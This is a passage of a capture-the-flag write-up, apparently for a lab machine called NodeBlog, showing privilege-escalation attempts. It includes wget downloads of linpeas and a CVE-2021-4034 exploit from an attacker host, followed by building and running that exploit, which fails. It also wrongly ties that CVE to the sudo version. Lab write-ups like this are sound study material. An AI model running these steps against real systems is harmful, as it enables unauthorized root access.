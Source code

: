 ## Privilege escalation
As always, the first thing to test is:
```bash
admin@nodeblog:~$ sudo -l
[sudo] password for admin: 
admin@nodeblog:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
It failed, so we need to find another attack vector:
```bash
admin@nodeblog:/tmp$ wget 10.10.16.2:4444/linpeas.sh
--2022-06-03 19:07:37--  http://10.10.16.2:4444/linpeas.sh
Connecting to 10.10.16.2:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 765820 (748K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh           100%[=====================>] 747.87K  1.31MB/s    in 0.6s    

2022-06-03 19:07:38 (1.31 MB/s) - ‘linpeas.sh’ saved [765820/765820]

admin@nodeblog:/tmp$ ./linpeas.sh
-bash: ./linpeas.sh: Permission denied
admin@nodeblog:/tmp$ chmod +x ./linpeas.sh 
admin@nodeblog:/tmp$ ./linpeas.sh 
```
From its output, we discover:
- Sudo version: `1.8.31` -> Vuln to [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- Admin's groups: `uid=1000(admin) gid=1000(admin) groups=1000(admin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)`
  - Admin is in group sudo ->  We don't have credentials
- File `.sudo-as-admin-successful` in `/home/admin`: `-rw-r--r-- 1 admin admin 0 Jul  2  2021 /home/admin/.sudo_as_admin_successful`
  - The file is empty

First thing we can try is to exploit CVE-2021-4034, as both gcc and make are installed in the machine:
```bashadmin@nodeblog:~$ wget 10.10.16.2:4444/4034.tar.gz
--2022-06-03 20:08:12--  http://10.10.16.2:4444/4034.tar.gz
Connecting to 10.10.16.2:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 174080 (170K) [application/gzip]
Saving to: ‘4034.tar.gz’

4034.tar.gz          100%[=====================>] 170.00K   396KB/s    in 0.4s    

2022-06-03 20:08:13 (396 KB/s) - ‘4034.tar.gz’ saved [174080/174080]
admin@nodeblog:~$ tar -xf 4034.tar.gz
admin@nodeblog:~$ cd CVE-2021-4034
admin@nodeblog:~/CVE-2021-4034$ make
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
admin@nodeblog:~/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./cve-2021-4034)
```
So this exploit cannot be applied. Then, we must look for other ways to escalate, for example the mongodb database previously enumerated:
```bash
admin@nodeblog:~/CVE-2021-4034$ mongo
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27017
Implicit session: session { "id" : UUID("f1adb185-7849-4723-b308-eafaac0ad2cb") }
```